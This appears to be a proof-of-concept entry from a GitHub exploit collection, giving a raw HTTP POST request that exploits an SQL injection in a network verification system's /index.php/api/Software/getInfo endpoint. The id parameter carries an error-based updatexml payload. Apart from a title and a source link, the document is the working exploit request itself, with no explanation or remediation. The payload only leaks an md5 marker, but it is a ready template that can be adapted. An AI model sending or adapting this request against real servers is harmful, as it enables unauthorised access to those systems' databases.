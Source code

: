 # wlyz_getinfo_sqli
2024.4.1 @2 
from:  https://github.com/wy876/POC/blob/main/%E7%BD%91%E7%BB%9C%E9%AA%8C%E8%AF%81%E7%B3%BB%E7%BB%9FgetInfo%E5%8F%82%E6%95%B0%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
```
POST /index.php/api/Software/getInfo HTTP/1.1
Host: 
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

data=123456&id=1 and updatexml(1,concat(0x7e,md5(123),0x7e),1)
```
